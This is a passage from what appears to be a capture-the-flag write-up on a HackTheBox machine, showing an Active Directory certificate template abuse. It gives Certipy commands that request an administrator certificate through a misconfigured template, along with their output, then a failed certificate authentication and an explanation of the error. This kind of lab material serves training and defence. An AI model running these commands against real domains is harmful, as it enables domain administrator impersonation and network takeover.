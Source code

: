 - `req` \- request a certificate
- `-username '0xdf$' -password 0xdf0xdf0xdf` \- auth as the computer account created above
- `-ca AUTHORITY-CA` \- the certificate authority associated with the ADCS
- `-dc-ip 10.10.11.222` \- the IP of the DC
- `-template CorpVPN` \- the name of the vulnerable template
- `-upn administrator@authority.htb` \- the user requesting the certificate for
- `-dns authority.htb` \- the DNS server to use in this request

The result is a certificate plus private key saved in `administrator_authority.pfx`:

```
oxdf@hacky$ certipy req -username '0xdf$' -password 0xdf0xdf0xdf -ca AUTHORITY-CA -dc-ip 10.10.11.222 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 3
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'

```

### PassTheCert

#### Auth \[Fail\]

Typically at this point I would use the `auth` command to get the NTLM hash for the administrator user:

```
oxdf@hacky$ certipy auth -pfx administrator_authority.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)

```

This happens “when a domain controller doesn’t have a certificate installed for smart cards”, according to [this post](https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d) from Specterops. Specifically, it happens because “the DC isn’t properly set up for PKINIT and authentication will fail”.
